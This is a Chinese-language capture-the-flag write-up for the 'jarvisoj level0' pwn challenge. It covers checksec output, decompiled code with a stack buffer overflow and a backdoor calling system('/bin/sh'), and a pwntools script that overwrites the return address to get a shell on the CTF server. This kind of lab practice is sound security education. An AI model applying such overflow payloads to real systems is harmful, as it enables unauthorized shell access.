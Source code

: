 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level0
date: 2022-3-19 20:42:02
permalink: /pages/2e9547494524d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level0

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec level0
[*] '/root/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数输出了一句`Hello, World`，接着调用`vulnerable_function`函数，该函数如下

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

查找函数表发现后门函数`callsystem`

```c
int callsystem()
{
  return system("/bin/sh");
}
```



## 思路分析

1. 目前信息
   - 栈上变量`buf`处可写入`0x200`字节数据
   - `buf`距离返回地址的偏移为`0x80+8`
3. 思路
   - 可写入字节数已经大于偏移量，可直接进行栈溢出将返回地址修改为后门函数的地址

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level0/level0'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27710)
padding = 0x80+8
backdoor = 0x40059A
io.recv()
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```